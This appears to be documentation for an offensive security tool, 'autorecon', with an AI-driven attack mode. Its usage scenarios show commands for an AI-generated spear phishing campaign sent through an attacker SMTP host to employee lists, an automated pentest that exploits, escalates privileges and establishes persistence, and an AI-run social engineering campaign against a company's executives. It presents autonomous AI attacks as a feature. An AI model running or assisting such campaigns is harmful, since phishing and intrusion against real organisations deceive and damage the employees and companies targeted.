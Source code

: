### Scenario 2: Automated Spear Phishing Campaign

```bash
# AI-generated spear phishing campaign
autorecon --enable-attack-mode --enable-ai \
  --email-scans phishing-campaign \
  --use-ai \
  --campaign-type spearphishing \
  --company-name "TechCorp" \
  --target-info employee_data.json \
  --generate-multiple \
  --variants-count 3 \
  --smtp-server smtp.attacker.com \
  --target-emails employees.txt \
  target.com
```

**What happens:**
1. AI analyzes target company and employee data
2. Generates 3 different phishing email variants
3. Personalizes content for each target
4. Executes campaign with tracking
5. Provides effectiveness analytics

### Scenario 3: Full Automated Penetration Test

```bash
# Complete AI-orchestrated pentest
autorecon --enable-attack-mode --enable-ai \
  --attack-scans ai-attack-orchestrator \
  --auto-exploit \
  --auto-escalate \
  --generate-payloads \
  --interactive-ai \
  --lhost 192.168.1.10 \
  --time-limit 7200 \
  target.com
```

**What happens:**
1. AI performs reconnaissance analysis
2. Generates comprehensive attack strategy
3. Executes attacks automatically
4. Adapts based on success/failure
5. Attempts privilege escalation
6. Establishes persistence
7. Provides post-exploitation guidance

### Scenario 4: Social Engineering Campaign

```bash
# Multi-vector social engineering
autorecon --enable-attack-mode --enable-ai \
  --ai-request "I want to conduct a comprehensive social engineering campaign against TechCorp's executives" \
  --interactive-ai \
  --company-name "TechCorp" \
  target.com
```
